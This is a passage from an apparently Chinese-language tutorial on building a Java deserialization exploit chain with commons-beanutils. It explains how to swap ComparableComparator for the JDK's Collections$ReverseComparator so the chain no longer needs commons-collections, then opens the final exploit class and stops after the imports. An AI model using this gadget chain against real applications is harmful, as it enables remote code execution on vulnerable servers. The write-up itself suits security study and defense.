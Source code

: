 ![image-20221215112445181](images/image-20221215112445181.png)

可以看到`ComparableComparator`是在`commons collections`下的类，这意味着我们要利用的话，除了需要`commons-beanutils`依赖，还需要`commons-collections`的依赖。

这显然不是我们想要的效果，那么如何解决呢？回顾一下，其实我们整个调用链是用不到`BeanComparator`类的`comparator`属性，也就是说它是什么我们并不关心，所以最简单的办法就是找一个 JDK 自带的实现了`Serializable`接口和`Comparator`接口的类就行，这里我们使用`java.util.Collections$ReverseComparator`
![image-20221215113447563](images/image-20221215113447563.png)

因此最终构造的 exp 为：
```java
package com.serialize;

import com.sun.org.apache.xalan.internal.xsltc.trax.TemplatesImpl;
import org.apache.commons.beanutils.BeanComparator;

import java.io.*;
import java.lang.reflect.Constructor;
import java.lang.reflect.Field;
import java.util.Comparator;
import java.util.PriorityQueue;

/**
 * Created by dotast on 2022/12/7 16:15
 */
public class CommonsBeanutils {
    public static void main(String[] args) throws Exception{
```